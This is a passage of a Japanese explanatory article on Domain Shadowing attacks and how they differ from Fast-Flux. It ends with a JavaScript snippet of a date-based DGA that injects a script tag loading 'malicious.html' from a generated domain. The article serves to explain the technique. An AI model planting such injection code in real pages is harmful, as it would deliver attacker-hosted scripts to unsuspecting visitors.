 ■0x02.) Domain Shadowing攻撃とは?

　Domain Shadowing攻撃とは、簡単に言うと他人のドメインアカウントの資格情
報を盗み取り(DNSレコードをハッキングし)サブドメインを大量に生成する攻撃で
す。
　目的としてはドメインを対象にした検知を回避する目的があります。また、こ
の方法では、攻撃者は”ほぼ無限”にドメインを生成できるというメリットがあ
ります。

　Domain Shadowing攻撃を”ruffnex.oc.to“を用いて説明させていただきます。

○domain shadowing図解

/****************************/ ===>  /****************************/
/*      ruffnex.oc.to       */ ===>  /*   133.242.147.127(Japan) */
/****************************/ ===>  /****************************/

/****************************/ ===>  /****************************/
/* malicious.ruffnex.oc.to  */ ===>  /*  133.242.147.127(Chaina) */
/****************************/ ===>  /****************************/

　という様に、”ruffnex.oc.to”のDNSレコードを乗っ取ってしまったのであれ
ばサブドメインなど生成せずに”ruffnex.oc.to”のレコードも書き換えて使えば
良いじゃないか?!と思うかもしれませんが、この攻撃はドメイン所有者が頻繁に
DNSレコードを確認していないという人間の脆弱性の様な物をついて成り立つため、
管理者が頻繁に確認する様な(元々登録されているDNSレコード)は書き換えないと
いうのがこの攻撃のポイントです。

　これとDomain Shadowingに似た攻撃方法として、Fast-Flax攻撃が存在します。
　それでは、その2つはどの様な違いがあるのでしょうか?

・Fast-Flax攻撃
　1つのドメインに対して、複数のIPを割り当てます。そして、TTL値を短くし短
い時間でIPを切り替えていきます。よって、IPベースの検知を回避する目的があ
ります。

・Domain Shadowing攻撃
　DGAの様な仕組みで複数のサブドメインを作成し、IPを割り当てます。この攻撃
では、ドメインベースの検知を回避する目的があります。

　Exploit-kitなどで用いられている、DGAなどで Domain shadowingで生成したド
メインを生成します。DGAの例として、日付を用いたDGAも存在します。私的です
が、日付を用いたDGAは多く見受けます。

-----  日付を用いたDGA
function runonload(){
	if(!document.body){
		setTimeout(runonload,50);
	}else{
		var s = document.createElement("SCRIPT");
		s.src = "http://" + hashdate().toString(16) + “.jp/malicious.html?" + Math.random();
		document.body.appendChild(s);
	}
};
-----
